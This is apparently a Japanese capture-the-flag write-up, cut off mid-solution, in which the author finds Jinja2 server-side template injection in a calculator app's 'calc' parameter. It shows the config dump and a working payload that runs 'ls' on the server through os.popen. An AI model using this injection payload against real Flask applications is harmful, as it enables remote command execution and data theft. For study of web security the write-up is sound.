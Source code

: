 ### Solution

サイトにアクセスすると電卓があり、計算ができるようになっています。

POSTデータを見てみると、`calc=` というパラメータに計算式がセットされて送信されていました。

<br />

試しに Burp Suiteの Repeaterを使って `calc={{ config }}` をPOSTしてみると、設定値が取れました。

以下が、サーバーからのレスポンスです。

<pre>
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Cloud-Trace-Context: 21d9ab888b0014774d78d7ea940cb502;o=1
Date: Sun, 30 Apr 2023 11:33:28 GMT
Server: Google Frontend
Content-Length: 925

[ERROR] &lt;Config {&#39;DEBUG&#39;: False, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;SECRET_KEY&#39;: None, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(days=31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: None, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: None, &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093}&gt;
</pre>

<br />

SSTI (Server-Side Template Injection) ってやつですかね。

以下を参考にしました。（OSCPのときには、よくお世話になりました。）

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

<br />

以下のように、任意のコマンドが実行できました。（注: calcの部分は、POSTしているデータのみ書いてます）

<pre>
calc={{ config.__class__.from_envvar.__globals__.import_string("os").popen("ls").read() }}

HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Cloud-Trace-Context: bee9296169e7cb2f70911bff50bc1d16;o=1
Date: Sun, 30 Apr 2023 11:36:12 GMT
Server: Google Frontend
Content-Length: 51

[ERROR] app.py
flag.txt
requirements.txt
templates
